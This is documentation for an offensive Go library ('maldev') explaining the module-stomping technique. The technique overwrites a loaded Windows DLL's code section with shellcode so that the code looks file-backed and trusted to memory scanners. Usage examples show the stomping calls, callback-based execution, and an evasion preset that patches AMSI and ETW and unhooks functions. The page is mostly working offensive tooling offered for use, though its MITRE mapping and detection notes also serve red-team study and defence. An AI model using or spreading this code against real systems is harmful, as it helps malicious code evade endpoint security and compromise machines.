

# Module Stomping

> **MITRE ATT&CK:** T1055.001 -- Process Injection: DLL Injection | **D3FEND:** D3-SICA -- System Image Change Analysis | **Detection:** Medium

## Primer

Picture a library with hundreds of books. Each book is trusted by the librarian because it was placed there by the publisher. Now imagine you open one of those books -- say, a rarely-read reference manual -- carefully remove a page, and replace it with your own content. Anyone who checks the spine sees a legitimate book from a trusted publisher. They would have to read the actual page to notice the swap.

Module stomping works the same way. Windows keeps track of which DLLs are loaded and where they came from on disk. Memory scanners often trust regions that are "backed" by a legitimate file -- if the memory maps to `C:\Windows\System32\msftedit.dll`, it must be safe, right? Module stomping loads a real DLL, finds its `.text` (code) section, and overwrites it with your shellcode. The memory region still appears file-backed to the operating system, but the actual bytes are now your code.

This is a local (self-injection) technique. It gives you an executable memory address that looks innocent to memory scanners. You then use a separate execution method (callback, thread pool, fiber, etc.) to actually run the shellcode.

## How It Works



**Step-by-step:**

1. **LoadLibraryEx(DONT_RESOLVE_DLL_REFERENCES)** -- Load a legitimate System32 DLL as a mapped image but skip `DllMain` execution. The OS creates a proper SEC_IMAGE section, so the region appears file-backed.
2. **Parse PE headers** -- Walk the loaded module's PE headers in memory to locate the `.text` section's virtual address and size.
3. **VirtualProtect(RW)** -- Make the `.text` section writable.
4. **Copy shellcode** -- Zero the existing `.text` content and overwrite it with the shellcode. The shellcode must be smaller than the `.text` section.
5. **VirtualProtect(RX)** -- Restore execute-read permissions.
6. **Return address** -- The function returns the address of the stomped `.text` section. The caller chooses how to execute it (callback, thread, etc.).

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // Stomp a rarely-used DLL's .text section with shellcode.
    addr, err := inject.ModuleStomp("msftedit.dll", shellcode)
    if err != nil {
        log.Fatal(err)
    }

    // Execute via callback (no thread creation).
    if err := inject.ExecuteCallback(addr, inject.CallbackEnumWindows); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Evasion: patch AMSI + ETW, unhook common functions.
    if errs := evasion.ApplyAll(preset.Stealth(), nil); errs != nil {
        log.Printf("evasion errors: %v", errs)
    }

    // 2. Module stomp -- shellcode now lives in a file-backed image section.
    addr, err := inject.ModuleStomp("dbghelp.dll", shellcode)
    if err != nil {
        log.Fatal(err)
    }

    // 3. Execute via thread pool (no new thread creation).
    //    Note: ThreadPoolExec takes raw shellcode and handles its own allocation.
    //    For stomped modules, use ExecuteCallback instead.
    if err := inject.ExecuteCallback(addr, inject.CallbackCreateTimerQueue); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | High -- memory appears file-backed by a legitimate DLL. Defeats memory scanners that trust image-backed regions. |
| Compatibility | Good -- `LoadLibraryEx` with `DONT_RESOLVE_DLL_REFERENCES` works on all modern Windows. |
| Size constraint | Shellcode must fit within the target DLL's `.text` section. Choose a DLL with a large `.text` (e.g., `msftedit.dll` ~200KB). |
| Detection vectors | Advanced scanners compare in-memory `.text` bytes against the on-disk DLL. This "integrity check" detects stomping. |
| Limitations | Local injection only -- cannot stomp a module in another process. The DLL must not already be loaded (would get a reference to the existing copy). |

## API Reference

```go
// ModuleStomp loads a DLL and overwrites its .text section with shellcode.
// Returns the address of the stomped section for deferred execution.
func ModuleStomp(dllName string, shellcode []byte) (uintptr, error)

// Suggested execution methods after stomping:
func ExecuteCallback(addr uintptr, method CallbackMethod) error
func ThreadPoolExec(shellcode []byte) error  // standalone, handles own allocation

// CallbackMethod constants:
const (
    CallbackEnumWindows        CallbackMethod = iota  // EnumWindows
    CallbackCreateTimerQueue                           // CreateTimerQueueTimer
    CallbackCertEnumSystemStore                        // CertEnumSystemStore
)
```
